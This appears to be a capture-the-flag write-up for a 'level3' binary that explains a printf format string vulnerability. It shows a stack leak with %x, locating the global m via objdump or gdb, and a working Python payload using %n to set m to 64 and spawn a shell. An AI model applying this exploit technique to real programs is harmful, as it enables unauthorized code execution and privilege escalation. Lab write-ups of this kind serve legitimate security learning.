 # level3
Unlike the previous level. `fgets` is used instead if `gets`. `fgets` is a safer function than `gets` because it takes a size parameter. The size parameter is the maximum number of characters to read. This prevents buffer overflow attacks.


## Goal
A global variable `m` is declared and supposed to be equal to zero. `v` function run a shell if `m` is equal to `64`

__We must change  value of `m` to `64`__

## Step 1
After `fgets` is done. printf is used to print the value returned by `fgets`

Yeah !! We can control the first parameter of `printf`. So we can make a __*format string attack*__. See [this video](https://www.youtube.com/watch?v=0WvrSfcdq1I) 

`int printf(const char *format, ...)` is a variadic function

As we can control the first parameter of `printf` we can use a __format string__  like `%x`. It will be search the next parameter in the __Ellipsis__ and print it as hexa.

Indeed `printf` is called with more parameters than wanted. And we know that parameters are placed on the stack before a function call.

> Finally: We have access to random value on the stack. It is leak of the stack


## Step 2
Try to access to `m` pointer by  insert multiple `%x` in the format string which will print the value of the stack. Successfully we access to `m` pointer as __fifth__ parameter of `printf`


``` bash
(python -c 'print "AAAA " + "%x %x %x %x"'; cat)  | /home/user/level3/level3
```
```console
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```



## Step 3

Use the `%n` specifier. it will write the number of characters printed so far into the `int *` given. `m` in our case

see [stack overflow n specifier](https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c)

But va_arg will not access to `m` pointer


## Step 4 
Find address of `m`


``` bash
$ objdump -t level3
--- or ---
$ (gdb) p &m
--- or ---
$ (gdb) info variables
```

> `m` is at `0x0804988c`

## Exploit

Previous result is
```console
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

```bash
(python -c 'print "\x8c\x98\x04\x08" + "%x%x%x" + "A" * 41 + "%n"'; cat)  | /home/user/level3/level3
```


- Write the address of `m` in the buffer accessed through the fifth paramter of printf
- Write 64 total characters
- Once printf accesses to `m` pointer inside the buffer. make a `%n` 


> 41 = 64 - nb_caracs_ever_writed. It will write 64 in `m`